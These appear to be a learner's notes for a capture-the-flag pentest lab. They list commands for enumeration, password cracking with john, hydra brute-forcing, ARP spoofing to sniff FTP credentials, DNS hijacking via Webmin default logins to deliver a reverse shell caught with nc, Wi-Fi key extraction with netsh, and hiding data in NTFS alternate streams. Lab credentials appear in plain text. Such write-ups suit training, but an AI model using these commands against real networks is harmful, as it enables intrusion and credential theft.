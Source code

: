 1. dnsenum yolo.co.il
2. gobuster vhost -w /rockyou.txt -u yolo.co.il  
   ffuf -w  /usr/share/dirb/wordlists/common.txt -u http://admin.yolo.co.il/FUZZ    #(two ways for subdomain enumeration)
3. dirb  http://admin.yolo.co.il/ -w
4. http://admin.yolo.co.il/backup/ (the directory found in privious steps)
5. john shadow --format=crypt (inside backup directory which we download from the url in privious step ther's a shado file, and john crack the password from the hash there)
6. nmap -p- --min-rate 100 -sV 10.1.22.122 (10.1.0.122 is my yolo ip, i check what ports are open and found port 2222)
7. ssh dexter@10.1.22.122 -p 2222
put the password that john found "iloveyou1"

#####       found a flag!!!     #####

8. sudo hydra -l admin -P ./rockyou.txt -f admin.yolo.co.il -s 80 http-post-form "/?:username=^USER^&pswrd=^PASS^:F=<form action="">"    #brute forceing, we got result but it's not working.
9. hydra ssh syntax: hydra -l shlomke -P /usr/share/wordlists/rockyou.txt ssh://10.10.55.37 -V
10. hydra vnc syntax: hydra -s 5900 –P /usr/share/wordlists/rockyou.txt 192.168.0.6 vnc
11. ssh to admin with the found password fails
12. nmap -p0-65535 192.168.2.0/24 (scan dexter's network)
13. telnet 192.168.2.3 10000   #connect to the dns server (not sure what to to with it)
14. sudo dig axfr @192.168.2.3
15. curl http://192.168.2.3:10000
16. wget https://c4705d283d7e:10000 --no-check-certificate
17. wget https://c4705d283d7e//images/favicons/webmin/apple-touch-icon.png:10000 --no-check-certificate  (#download a file, not sure what to do with it.)
18. apt install dsniff  (For sniffing passwords from plaintext protocols like ftp, and for arpspoofing)
19. sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8  #arp spoffing to tell the router that i'm the ftp server.
20. sudo tcpdump dst 192.168.2.8  #listen to the traffic to the ftp server. (which the router send to me now because of the spoofing)
21. we found username and password! ftp_yolo  CyberSec@12 
22. ftp ftp.yolo.co.il # and put the details of the user.
23. get flag2.txt   (download the file)

######       found another flag!!!     ######

22. nmap -p0-5000 10.1.22.122
23. scp -P 2222 ftp_server.py dexter@10.1.22.122:/home/dexter    (#ftp server file)
24. scp -P 2222 clock_update.sh dexter@10.1.22.122:/home/dexter  (#the reverse shell file)
### connect to webmin page in order to change the dns record so i can get the request from the client and send him the reverse shell file:
25. ssh -L 8082:192.168.2.3:10000 -p 2222 dexter@10.1.22.122 #create a proxy to connect to the dns server with port 10000
26. in the URL: https://localhost:8082
27. put the default logins to the webmin: user - root, password - password
28. change the record for the ftp server to our address 192.168.2.2
28. check that you made it right: dig ftp.yolo.co.il
29. run ftp_server.py
30. listen with nc: nc -l 32340
31. we got reverse shell on the user. ls - and ther's the 3rd flag.

###################################################################										more nmap pentest techniqes:
1. git clone https://github.com/vulnersCom/nmap-vulners.git
2. cd /usr/share/nmap/scripts/
3. nmap -sV --script nmap-vulners/ 151.101.131.5 
#############################################################################
									usefull stuff
1. kill a process that use specific port: sudo kill -9 `sudo lsof -t -i:9001`
2. find process pid and name of service using it:			  sudo ss -lptn 'sport = :8001'
3. stop the service: sudo systemctl stop inetd.service


1. get access points list windwos: Netsh wlan show profile
2. get the access point password: Netsh wlan show profile name ="tp link"  key=clear

#############################################################################
							ADS:
	1. alternative data stream are great way to store secret and malicious information undetected, you just create a file myfile.txt
 	   and to create ads you create a file myfile.txt:blabla and can store anything you want there. that file cannot be display using dir 
     	   command or file explorer, and that's why its hard to detect.
	   - how can you display it: 1. dir /R     2.  (need download) stream64 <filename> will show if there are other streams to that file. 
           - if you know the name of the ads file (you found it using dir /R or stream64) you can display its content in 2 ways:
	        1. start notepad myfile.txt:blabla   2. more < myfile.txt:blabla

  ###########################################################################





